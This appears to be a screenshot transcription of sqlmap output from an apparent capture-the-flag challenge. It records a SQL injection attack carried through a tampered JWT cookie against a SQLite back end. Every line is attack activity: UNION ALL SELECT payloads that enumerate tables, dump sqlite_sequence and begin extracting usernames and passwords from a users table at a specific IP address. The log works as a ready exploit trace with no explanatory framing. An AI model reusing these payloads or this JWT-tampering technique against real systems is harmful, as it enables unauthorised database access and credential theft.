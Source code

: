 ```bash
[14:29:14] [INFO] testing SQLite
[14:29:14] [INFO] confirming SQLite
[14:29:14] [INFO] actively fingerprinting SQLite
[14:29:14] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:29:14] [INFO] fetching tables for database: 'SQLite_masterdb'
[14:29:14] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(tbl_name) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT)-- zCbl
do you want to URL encode cookie values (implementation specific)? [Y/n] 
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(tbl_name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT) LIMIT 0,1),NULL-- BsEq
[14:29:17] [INFO] retrieved: 'flag_storage'
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(tbl_name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT) LIMIT 1,1),NULL-- prNa
[14:29:17] [INFO] retrieved: 'sqlite_sequence'
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(tbl_name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM sqlite_master WHERE type=CAST(X'7461626c65' AS TEXT) LIMIT 2,1),NULL-- Tvkn
[14:29:17] [INFO] retrieved: 'users'
[14:29:17] [INFO] fetching columns for table 'sqlite_sequence' in database 'SQLite_masterdb'                                       
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,MIN(CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(sql AS TEXT),CAST(X'20' AS TEXT)))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE tbl_name=CAST(X'73716c6974655f73657175656e6365' AS TEXT)-- NobE
[14:29:17] [INFO] fetching entries for table 'sqlite_sequence' in database 'SQLite_masterdb'
[14:29:17] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(*) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_sequence-- KnvL
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(name AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(seq AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_sequence-- vXMq
Database: SQLite_masterdb
Table: sqlite_sequence
[1 entry]
+-----+--------------+
| seq | name         |
+-----+--------------+
| 1   | flag_storage |
+-----+--------------+

[14:29:18] [INFO] table 'SQLite_masterdb.sqlite_sequence' dumped to CSV file '/home/vscode/.local/share/sqlmap/output/178.128.46.168/dump/SQLite_masterdb/sqlite_sequence.csv'
[14:29:18] [INFO] fetching columns for table 'users' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,MIN(CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(sql AS TEXT),CAST(X'20' AS TEXT)))||CAST(X'71717a7071' AS TEXT),NULL FROM sqlite_master WHERE tbl_name=CAST(X'7573657273' AS TEXT)-- QEgf
[14:29:18] [INFO] fetching entries for table 'users' in database 'SQLite_masterdb'
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(COUNT(*) AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT),NULL FROM users-- rndl
[14:29:18] [INFO] [jwt_tamper.py] Sign payload: ' UNION ALL SELECT NULL,(SELECT CAST(X'71627a7671' AS TEXT)||COALESCE(CAST(255 AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(PRIMARY AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(id AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(password AS TEXT),CAST(X'20' AS TEXT))||CAST(X'736e6e6a7970' AS TEXT)||COALESCE(CAST(username AS TEXT),CAST(X'20' AS TEXT))||CAST(X'71717a7071' AS TEXT) FROM users LIMIT 0,1),NULL-- zmjY
```